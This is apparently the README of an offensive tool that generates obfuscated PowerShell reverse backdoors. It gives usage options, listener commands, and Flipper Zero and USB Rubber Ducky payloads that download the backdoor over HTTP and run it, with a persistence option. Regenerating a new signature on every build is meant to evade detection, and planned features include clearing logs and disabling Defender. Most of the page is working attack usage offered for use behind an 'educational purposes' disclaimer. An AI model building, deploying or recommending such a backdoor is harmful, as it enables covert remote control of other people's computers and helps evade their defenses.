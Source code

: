 ```
/******************************************************************************
 * DISCLAIMER: 
 * 
 * This program is intended for educational purposes only. By using this program,
 * you agree that you understand the potential risks associated with its use.
 * 
 * - This program should not be used on any system or network without proper 
 *   authorization. Unauthorized use is strictly prohibited.
 * 
 * - The creator of this program assumes no liability for any damages, legal 
 *   consequences, or loss of data caused by the use of this program.
 * 
 * - It is your responsibility to ensure that you comply with all applicable 
 *   laws and regulations while using this program.
 * 
 * Please use this program responsibly and ethically, and respect the privacy 
 * and security of others.
 *****************************************************************************/


```

# PShellBackdoorBitch
<br>
Reverse backdoor tool written in PowerShell and obfuscated with Python, providing a new signature after every build to avoid detection. The tool has the capability to create payloads for popular hacking devices such as Flipper Zero and Hak5 USB Rubber Ducky. Use this tool to test your system's defenses against advanced attack techniques.
```
usage: listen.py [-h] [--ip-address IP_ADDRESS] [--port PORT] [--random] [--out OUT] [--verbose] [--delay DELAY] [--flipper FLIPPER] [--ducky]
                 [--server-port SERVER_PORT] [--payload PAYLOAD] [--list--payloads] [-k KEYBOARD] [-L] [-H]

Powershell Backdoor Generator

options:
  -h, --help            show this help message and exit
  --ip-address IP_ADDRESS, -i IP_ADDRESS
                        IP Address to bind the backdoor too (default: 192.168.X.XX)
  --port PORT, -p PORT  Port for the backdoor to connect over (default: 4444)
  --random, -r          Randomizes the outputed backdoor's file name
  --out OUT, -o OUT     Specify the backdoor filename (relative file names)
  --verbose, -v         Show verbose output
  --delay DELAY         Delay in milliseconds before Flipper Zero/Ducky-Script payload execution (default:100)
  --flipper FLIPPER     Payload file for flipper zero (includes EOL conversion) (relative file name)
  --ducky               Creates an inject.bin for the http server
  --server-port SERVER_PORT
                        Port to run the HTTP server on (--server) (default: 8080)
  --payload PAYLOAD     USB Rubber Ducky/Flipper Zero backdoor payload to execute
  --list--payloads      List all available payloads
  -k KEYBOARD, --keyboard KEYBOARD
                        Keyboard layout for Bad Usb/Flipper Zero (default: us)
  -A, --actually-listen
                        Just listen for any backdoor connections
  -H, --listen-and-host
                        Just listen for any backdoor connections and host the backdoor directory
```
# Quick Links
* [Preview](#preview)
* [Features](#features)
* [Standard Backdoor](#standard-backdoor)
* [Flipper Zero Backdoor](#flipper-zero-backdoor)
* [USB Rubber Ducky Backdoor](#usb-rubber-ducky-backdoor)
* [Thanks](#thanks)
* [To Do](#to-do)
* [Output of 5 Obfuscations](#output-of-5-obfuscations)

## Preview
![preview](/core/images/preview.PNG)
<br>

## Features
* Hak5 Rubber Ducky payload
* Flipper Zero payload
* Download Files from remote system
* Play wav files from a URL
* Fetch target computers public IP address
* List local users
* Find Intresting Files
* Gather information about the target system's operating system
* Retrieve BIOS information from the target syste
* Check if an anti-virus software is installed and its current status
* Get Active TCP Clients
* Install Chocolatey, a popular package manager for Windows (https://chocolatey.org/)
* Check if common pentesting software is installed on the target system.

## Standard backdoor
``` bash
C:\Users\jdabs\Desktop\PShellBackdoorBitch> python .\listen.py --verbose
[*] Encoding backdoor script
[*] Saved backdoor backdoor.ps1 sha1:32b9ca5c3cd088323da7aed161a788709d171b71
[*] Starting Backdoor Listener 192.168.0.223:4444 use CTRL+BREAK to stop
```
A file in the current working directory will be created called backdoor.ps1

### Backdoor Execution
Tested on Windows 11, Windows 10 and Kali Linux. To run this as a hidden window and with persistence access follow the guide ![here](https://github.com/Drew-Alleman/powershell-backdoor-generator/issues/2#issuecomment-1546996105)
```cmd
powershell.exe -File backdoor.ps1 -ExecutionPolicy Unrestricted
```
```cmd
┌──(jdabs㉿kali)-[/home/jdabs/Documents]
└─PS> ./backdoor.ps1
```

# Bad USB/ USB Rubber Ducky attacks
When using any of these attacks you will be opening up a HTTP server hosting the backdoor. Once the backdoor is retrieved the HTTP server will be shutdown.

## Payloads
   * Execute -- Execute the backdoor 
   * BindAndExecute -- Place the backdoor in the users temp directory, bind the backdoor to startup and then execute it. (Requires Admin)
## Flipper Zero Backdoor
Below will generate a file called powershell_backdoor.txt, which when triggered on the Flipper will fetch the backdoor from your computer over HTTP and execute it.
```
C:\Users\jdabs\Desktop\PShellBackdoorBitch> python .\listen.py --flipper powershell_backdoor --payload execute
[*] Started HTTP server hosting file: http://192.168.0.223:8989/backdoor.ps1
[*] Starting Backdoor Listener 192.168.0.223:4444 use CTRL+BREAK to stop
```
Place the text file you specified (e.g: powershell_backdoor.txt) into your flipper zero. When the payload is executed 
it will download and execute backdoor.ps1

## Usb Rubber Ducky Backdoor
Below is a tutorial on how to generate an inject.bin file for the Hak5 USB Rubber ducky
```
 C:\Users\jdabs\Desktop\PShellBackdoorBitch> python .\listen.py --ducky --payload BindAndExecute
[*] Started HTTP server hosting file: http://192.168.0.223:8989/backdoor.ps1
[*] Starting Backdoor Listener 192.168.0.223:4444 use CTRL+BREAK to stop
```
A file named inject.bin will be placed in your current working directory. Java is required for this feature. When the payload is executed 
it will download and execute backdoor.ps1

## Thanks
To encode payload.txt into inject.bin for USB Rubber Ducky Attacks I use encoder.jar created by ![midnitesnake](https://github.com/midnitesnake).

## To Do 
* Pull Recent RDP connections
* Change Wallpaper from URL
* Find Writeable Directories
* Clear Logs
* Disable Defender

## Output of 5 Obfuscations
Below is the sha1 hash of backdoor.ps1 after 5 builds.
```
1e158f02484e5c58d74c1507a1773392ffacfca2
6d18230a419195d0f77519abc0238768956cdd58
558a8cbac40239c9e6660a45cc8fc5d02b5057d7
caf4d0c8424eceb960d5f5c526e83ecd485c4ac9
947b57824917842d79f9cbcac8a795aa7c2f8a49
```
